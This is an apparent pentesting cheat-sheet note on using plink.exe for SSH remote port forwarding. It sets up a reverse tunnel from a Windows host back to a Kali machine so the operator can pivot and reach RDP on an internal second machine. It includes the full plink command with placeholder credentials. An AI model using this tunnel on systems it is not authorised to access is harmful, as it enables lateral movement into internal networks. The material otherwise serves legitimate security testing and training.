 Plink is the CLI version of PuTTY that allow us to use SSH Remote Forwarding if the OpenSSH service is missing. The syntax specifies the LOCAL-PORT on which Kali will listen and the REMOTE-PORT the Windows Machine will forward the connection to. This is useful in scenarios in which we have access only through CLI on the Windows Machine 1 and we want to connect via RDP to the Windows Machine 2, reachable only from the first Windows Machine.

```

KALI ---SSH--- WINDOWS-1 ---RDP--- WINDOWS-2
 |________________RDP__________________|

```

A simple plink Remote Forwarding is the following

```powershell
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:<LOCAL-PORT>:127.0.0.1:<REMOTE-PORT> <KALI-IP>
```